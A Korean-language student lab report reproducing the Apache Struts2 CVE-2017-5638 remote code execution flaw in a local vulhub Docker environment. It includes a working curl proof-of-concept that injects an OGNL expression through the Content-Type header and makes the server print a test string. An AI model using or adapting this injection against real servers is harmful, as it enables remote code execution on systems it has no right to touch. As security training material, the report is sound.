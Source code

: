 # CVE-2017-5638 (Apache Struts2 RCE) 실습 보고서
## 1. 개요
이번 보고서는 Apache Struts2 프레임워크의 Content-Type 필드 처리 취약점(CVE-2017-5638)을 도커를 이용해 재현하고, 실제 공격이 가능한지 실습한 내용을 정리한 것이다. 이 취약점은 서버에서 외부 입력을 제대로 검증하지 않아 원격 코드 실행(RCE)로 이어질 수 있는 심각한 문제를 일으킨다.

## 2. 실습 환경
- Host OS: Windows 11
- Docker Version: 28.0.4
- Docker Compose Version: 2.34.0

## 3. 실습 과경
3.1. 취약한 환경 구성
먼저 vulhub 레포지터리를 클론하고, Struts2 s2-045 취약 버전이 설정된 디렉터리로 이동했다. 이후 docker-compose를 이용해 컨테이너를 띄웠다.

git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-045
docker compose up -d
컨테이너가 정상적으로 구동되었고, localhost:8080로 접근할 수 있었다.

![컨테이너 띄운 화면](compose.png)

3.2. 환경 구축 결과
컨테이너가 정상적으로 올라가면서 Struts2 쇼케이스 페이지가 동작하는 것을 확인했다.

## 4. 취약점 검증 (PoC)
4.1. 공격 시도
curl 명령어를 이용해 Content-Type 헤더에 OGNL 표현식을 삽입해 요청을 보냈다.

curl -v -H "Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ctn=#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']).(#ctn.getWriter().println('vulnerable')).(#ctn.getWriter().flush())}" http://localhost:8080/struts2-showcase/upload.action

![PoC 성공 화면](curl.png)

4.2. 결과 확인
응답 본문에 vulnerable이라는 문자열이 출력되면서, 서버에서 OGNL 표현식이 실제로 실행된 것을 확인했다. 이를 통해 취약점이 존재함을 직접 검증할 수 있었다.

## 5. 느낀점
이번 실습을 통해 도커로 취약한 환경을 빠르게 구성하고, 실제 취약점이 어떻게 악용될 수 있는지를 직접 체험할 수 있었다. Struts2처럼 널리 사용되는 프레임워크에서도 입력값 검증이 제대로 안 되면 큰 문제가 발생할 수 있다는 점을 실감했다. 실습을 진행하면서 PoC 과정이 생각보다 간단해서 보안 관리의 중요성을 다시 느꼈다.

## 6. 참고 자료
Vulhub Struts2 S2-045 환경
CVE-2017-5638 상세정보 - NVD

## 7. GitHub 레포 링크
https://github.com/soonnae/vulhub/tree/master/struts2/s2-045

* pdf 변환 시 이미지가 보이지 않아서 깃허브에만 넣어놓겠습니다. 죄송합니다.
